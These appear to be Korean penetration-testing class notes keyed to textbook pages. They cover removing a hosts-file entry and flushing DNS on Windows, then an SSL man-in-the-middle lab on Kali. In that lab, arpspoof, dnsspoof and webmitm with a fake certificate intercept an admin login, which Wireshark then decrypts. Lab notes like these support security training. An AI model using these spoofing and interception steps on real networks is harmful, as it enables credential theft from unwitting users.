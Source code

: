 cmd -> ipconfig /displaydns

호스트 파일에 등록이 되어있다 -> 윈도우 -> c 밑에 Windows 에 system32 에 drives에 etc에  hosts

저 파일을 메모장으로 열어 172.16.10.20지우고 저장 

-> cmd -> ipconfig /flushdns 

혹시 방화벽 켜져있으면 방화벽도 끄기



### SSL MITM (179p)

webmitm 실행시 다른 탭에서 

root@KH200-kali:~# ls -l

```
합계 40
drwxr-xr-x 2 root root 4096  3월  6  2017 Desktop
drwxr-xr-x 2 root root 4096  3월  6  2017 Documents
drwxr-xr-x 2 root root 4096  3월  6  2017 Downloads
drwxr-xr-x 2 root root 4096  3월  6  2017 Music
drwxr-xr-x 2 root root 4096  3월  6  2017 Pictures
drwxr-xr-x 2 root root 4096  3월  6  2017 Public
drwxr-xr-x 2 root root 4096  3월  6  2017 Templates
drwxr-xr-x 2 root root 4096  3월  6  2017 Videos
-rw-r--r-- 1 root root   32 10월 26 13:28 dnsspoof.txt
-rw-r--r-- 1 root root 1648 10월 26 13:29 webmitm.crt  -> 공격자가 제공하는 가짜 인증서


```



###### 칼리

root@KH200-kali:~# arpspoof -i eth0 -t 172.16.10.10 172.16.10.50 

^Croot@KH200-kali:~# dnsspoof -i eth0 -f dnsspoof.txt

실행



###### XP

에서 https://www.pentest.co.kr -> 칼리에서 와이어샤크 실행 -> admin 으로 로그인 -> 와이어샤크 정지



###### 와이어샤크 

필터 : ssl

Source 가 172.16.10.10 인패킷 골라서  오른쪽 마우스 -> Protocol Preferences -> RSA keys lists

-> 추가해줘 -> 172.16.10.100 / 포트 443 / 프로토콜 http / 키파일은 webmitm.crt



### SSL MITM 실습 (184p)
